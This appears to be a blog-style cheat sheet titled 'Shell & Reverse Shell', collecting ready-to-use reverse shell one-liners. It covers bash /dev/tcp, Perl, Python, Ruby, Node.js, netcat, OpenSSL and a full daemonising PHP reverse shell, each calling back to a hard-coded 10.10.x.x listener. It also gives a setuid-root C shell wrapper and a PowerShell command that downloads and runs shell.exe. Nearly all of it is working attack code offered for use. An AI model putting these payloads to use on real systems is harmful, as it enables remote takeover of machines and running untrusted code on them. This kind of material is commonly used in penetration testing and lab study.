 ```yaml
---
layout: post
title: Shell & Reverse Shell
description: >
  There are list of Shell and Reverse Shell Collected from Internet.
---
```



## Find Out What program are Install

```bash

$ for item in $(echo "nmap nc perl python ruby gcc wget sudo curl php"); do which $item; done

```



## C Shell

> #### vim cShell.c
```c

int main(){
    setresuid(0,0,0);
    system("/bin/bash");
}

```
> #### for compile `$ gcc cShell.c -o cShell`

## TTY Shell

```bash
$ python -c 'import pty;pty.spawn("/bin/bash")'
# Background shell with `Ctrl+z`

$ echo $TERM && tput lines && tput cols
$ stty raw -echo
$ fg
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows <num> columns <num>

``` 
### Bash

```bash

$ exec 5<>/dev/tcp/10.10.11.11/9001 cat <&5 | while read line;do $line 2>&5 >&5;done

```


```bash
$ bash -i >& /dev/tcp/10.10.10.1/9001 0>&1

```

### Perl

```bash

$ perl -e 'use Socket;$i="10.10.11.14";$p=9002;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&s");open(STDERR,">&s");exec("/bin/sh -i");};'

```


### Python

```bash

$ python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.11",9003));os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'


```





### PHP

```bash

$ php -r '$sock=fsockopen("10.10.14.11",9001);exec("/bin/sh -i <&3 >&3 2>&3");'

```

```php

<?php set_time_limit(0);$VERSION="1.0";$ip='10.10.11.11';$port=9001;$chunk_size=1400;$write_a=null;$error_a=null;$shell='uname -a; w; id; /bin/sh -i';$daemon=0;$debug=0;if(function_exists('pcntl_fork')){$pid=pcntl_fork();if($pid==-1){printit("ERROR: Can't fork");exit(1);}if($pid){exit(0);}if(posix_setsid()==-1){printit("Error: Can't setsid()");exit(1);}$daemon=1;}else {printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");}chdir("/");umask(0);$sock=fsockopen($ip,$port,$errno,$errstr,30);if(!$sock){printit("$errstr ($errno)");exit(1);}$descriptorspec=array(0=>array("pipe","r"),1=>array("pipe","w"),2=>array("pipe","w"));$process=proc_open($shell,$descriptorspec,$pipes);if(!is_resource($process)){printit("ERROR: Can't spawn shell");exit(1);}stream_set_blocking($pipes[0],0);stream_set_blocking($pipes[1],0);stream_set_blocking($pipes[2],0);stream_set_blocking($sock,0);printit("Successfully opened reverse shell to $ip:$port");while(1){if(feof($sock)){printit("ERROR: Shell connection terminated");break;}if(feof($pipes[1])){printit("ERROR: Shell process terminated");break;}$read_a=array($sock,$pipes[1],$pipes[2]);$num_changed_sockets=stream_select($read_a,$write_a,$error_a,null);if(in_array($sock,$read_a)){if($debug)printit("SOCK READ");$input=fread($sock,$chunk_size);if($debug)printit("SOCK: $input");fwrite($pipes[0],$input);}if(in_array($pipes[1],$read_a)){if($debug)printit("STDOUT READ");$input=fread($pipes[1],$chunk_size);if($debug)printit("STDOUT: $input");fwrite($sock,$input);}if(in_array($pipes[2],$read_a)){if($debug)printit("STDERR READ");$input=fread($pipes[2],$chunk_size);if($debug)printit("STDERR: $input");fwrite($sock,$input);}}fclose($sock);fclose($pipes[0]);fclose($pipes[1]);fclose($pipes[2]);proc_close($process);function printit($string){if(!$daemon){print"$string\n";}}?>

```



### Ruby
 
```bash

$ ruby -rsocket -e 'f=TCPSocket.open("10.10.11.11",9001).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

```
> ## or

```bash

$ ruby -rsocket -e 'exit if fork;c=TCPSocket.new("10.10.11.11","9001");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end';

```


### Nodejs

```javascript

(function(){
    const net = require("net");
    const cp = require("child_process");
    const sh = cp.spawn("/bin/sh",[]);

    const client = new net.Socket();
    client.connect(9001,"10.10.11.11",function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/;
})();

``` 

```javascript

 require('child_process').exec('nc -e /bin/sh 10.10.11.11 9001')

```





### Netcat With -e 

```nc

$ nc -e /bin/sh 10.10.10.1 9001

```

### Netcat Without -e 

```nc 

$ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.11.11 9001 >/tmp/f

```


### OpenSSL

```bash

$ mkdir -p ~/tmp/openssl && cd ~/tmp/openssl && openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365 -nodes && openssl s_server -key key.pem -cert cert.pem -accept 8000

$ mkfifo /tmp/s; /bin/bash -i < /tmp/s 2>&1 | openssl s_client -qu -connect 10.10.11.11:8000 > /tmp/s; rm /tmp/s

```





### Binary Execute

- https://github.com/audibleblink/gorsh
- https://github.com/infoskirmish/Window-Tools/tree/master/Simple%20Reverse%20Shell


### Server 

```python

$ python3 -m http.server 

```

### Downloader

```powershell

powershell -command "((new-object System.Net.WebClient).DownloadFile('http://10.10.11.11:8080/shell.exe','%TEMP%\shell.exe'))";"c:\windows\system32\cmd.exe /c %TEMP%\shell.exe"

```

### Not Powershell

- https://github.com/Ben0xA/nps